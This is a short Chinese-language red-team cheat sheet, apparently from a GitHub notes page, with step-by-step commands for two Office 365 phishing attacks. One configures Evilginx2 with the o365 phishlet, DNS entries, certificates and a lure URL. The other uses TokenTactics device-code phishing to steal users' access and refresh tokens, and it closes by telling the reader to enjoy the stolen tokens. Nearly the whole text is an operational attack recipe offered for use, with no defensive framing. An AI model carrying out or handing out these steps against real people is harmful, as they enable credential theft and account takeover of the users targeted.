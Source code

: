 #### Evilginx2钓鱼
	PS C:\Tools> evilginx2 -p C:\Tools\evilginx2\phishlets
	: config domain username.corp
	: config ip 10.10.10.10
	: phishlets hostname o365 login.username.corp
	: phishlets get-hosts o365

	为 login.login.username.corp 和 www.login.username.corp 创建一个 DNS 条目，类型 A，指向您的计算机
	复制证书并启用网络钓鱼
	PS C:\Tools> Copy-Item C:\Users\Username\.evilginx\crt\ca.crt C:\Users\Username\.evilginx\crt\login.username.corp\o365.crt
	PS C:\Tools> Copy-Item C:\Users\Username\.evilginx\crt\private.key C:\Users\Username\.evilginx\crt\login.username.corp\o365.key
	: phishlets enable o365

	获取钓鱼网址
	: lures create o365
	: lures get-url 0
#### 设备代码钓鱼
  	要求：

	Azure AD / Office 365 E3 订阅
	开发：

	导入TokenTactics：PS C:\TokenTactics> Import-Module .\TokenTactics.psd1
	使用 TokenTactics 请求 Azure Graph API 的设备代码：Get-AzureToken -Client Graph
	<REPLACE-WITH-DEVCODE-FROM-TOKENTACTICS>在钓鱼邮件中替换
	让 TokenTactics 在 PowerShell 窗口中运行并发送网络钓鱼电子邮件
	目标用户将点击https://microsoft.com/devicelogin的链接并填写设备代码表
	享受您的访问令牌和刷新令牌